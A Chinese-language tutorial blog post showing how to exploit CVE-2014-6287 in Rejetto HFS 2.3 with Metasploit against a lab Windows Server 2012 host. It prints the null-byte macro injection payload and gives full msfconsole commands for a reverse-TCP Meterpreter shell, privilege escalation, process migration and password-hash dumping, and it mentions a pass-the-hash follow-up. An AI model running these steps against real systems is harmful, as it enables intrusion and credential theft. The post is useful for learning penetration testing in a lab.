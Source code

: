 ```yaml
---
layout: post
category: curleyg-code-hack
title: Metasploit攻击HFS2.3上的漏洞
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: Metasploit攻击HFS2.3上的漏洞
lock: need
---
```


# Metasploit攻击HFS2.3上的漏洞

攻击机： kali 192.168.109.137

靶机： windows server 2012 192.168.109.141

工具：Metasploit

根据CVE-2014-6287的描述，Rejetto网络文件服务器(也被称为HSF或者HttpFileServer)的2.3x版本(2.3c以前的版本)中的parserLib.pas文件使用了一个findMacroMaker函数，该漏洞源于parserLib.pas文件没有正确处理空字节。远程攻击者可借助搜索操作中的%00序列利用该漏洞执行任意程序。

下面给出了这个有漏洞的函数：

```
function findMacroMarker(s:string; ofs:integer=1):integer;
begin result:=reMatch(s, '\{[.:]|[.:]\}|\|', 'm!', ofs) end;
```

这个函数不能正确的处理空字节，所以当我们对[http://localhost:80/search=%00](http://localhost:80/search=){.exec|cmd.}发起请求时，就会停止对宏的正则解析，从而导致远程代码的注入。

## 开启MSF

```
msfconsole
```

## 渗透漏洞

```
search hfs
use exploit/windows/http/rejetto_hfs_exec
show options
set RHOST 192.168.109.141
set RPORT 8080
show payloads
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.109.137
set LPORT 4444
show options
exploit
```

此时，我们已经以管理员的身份获得了Windows server 2012系统的权限。

## 将权限提升为系统级

```
getsystem
```

## 查看系统进程和Meterpreter正在驻留的进程号

```
ps
getpid
```

## 绑定Meterpreter到其他进程

这里，为了保险起见，我们将Meterpreter的进程绑定到explorer.exe的进程号，这里，explorer.exe的进程号为1864,执行如下命令：

```
migrate 1864
```

此时，我们再次输入getpid命令查看，Meterpreter正在驻留的进程号变成了1864

## 收集系统密码的哈希值

```
hashdump
```

完成了哈希值的收集之后，就可以执行pass-the-hash攻击，在没有明文密码的情况下绕过限制。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
